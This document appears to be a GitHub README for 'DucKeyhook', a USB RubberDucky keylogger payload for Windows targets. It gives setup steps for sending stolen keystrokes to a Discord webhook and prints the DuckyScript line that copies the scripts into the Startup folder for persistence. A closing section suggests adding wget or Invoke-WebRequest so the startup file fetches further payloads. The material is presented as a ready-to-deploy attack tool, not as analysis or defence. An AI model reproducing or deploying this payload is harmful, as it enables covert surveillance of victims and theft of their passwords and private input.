 # DucKeyhook 
> Chris Taylor [Blue Cosmo]
---

```
      :::::::::  :::    :::  ::::::::  :::    ::: :::::::::: :::   ::: :::    :::  ::::::::   ::::::::  :::    ::: 
     :+:    :+: :+:    :+: :+:    :+: :+:   :+:  :+:        :+:   :+: :+:    :+: :+:    :+: :+:    :+: :+:   :+:   
    +:+    +:+ +:+    +:+ +:+        +:+  +:+   +:+         +:+ +:+  +:+    +:+ +:+    +:+ +:+    +:+ +:+  +:+     
   +#+    +:+ +#+    +:+ +#+        +#++:++    +#++:++#     +#++:   +#++:++#++ +#+    +:+ +#+    +:+ +#++:++       
  +#+    +#+ +#+    +#+ +#+        +#+  +#+   +#+           +#+    +#+    +#+ +#+    +#+ +#+    +#+ +#+  +#+       
 #+#    #+# #+#    #+# #+#    #+# #+#   #+#  #+#           #+#    #+#    #+# #+#    #+# #+#    #+# #+#   #+#       
#########   ########   ########  ###    ### ##########    ###    ###    ###  ########   ########  ###    ###        
```

## Overview:
DucKeyhook is a USB RubberDucky payload that uses PowerShell to log keystrokes. It will send the logs to you via discord. The keylogger almost gives you a "live feed" of their keystrokes through discord. However, you can tweak the timing to get the logs sent to you quick
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will execute *p.ps1* every minue
    - this can be changed to a preferred delay

## Resources:
- [YouTube Video](https://www.youtube.com/watch?v=uHIZZYFeVJA)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Twin-Duck firmware
- Discord Webhook
- Windows Target

## Instructions:
**Create Discord Webhook**
1. create a discord server by clicking the plus button in the bottom left

![Create Server](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/create-server.png)

2. go into the `integrations` section in the server's settings
3. click `Webhooks`
![Integrations](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/integrations.png)

4. create a new webhook by clicking `New Webhook`
5. click `Copy Webhook URL` to copy the webhook URL
![Webhook](https://raw.githubusercontent.com/CosmodiumCS/OnlyRAT/main/assets/webhook.png)

**Set-Up/Installation**
1. in line 5 of *p.ps1*, replace `DISCORDWEBHOOK` with the webhook URL 
```powershell
$webhook = "DISCORDWEBHOOK"
```
2. in line 16 *payload.txt*, change `'L'` to the name of your microSD card
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'L'}|select name;cd $u.name;cp .\p.ps1 $env:temp;cp .\l.ps1 $env:temp;cp .\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
4. flash Twin-Duck firmware on to your duck
    - [Tutorial](https://www.youtube.com/watch?v=BzYH-BPHLpE)
5. load, encode, and deploy!!

## Log Sending Delay
Changing the delay between log sends
1. in line 12 of *l.ps1*, change `60` to your preferred number of seconds
```powershell
Start-Sleep 60
```

## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
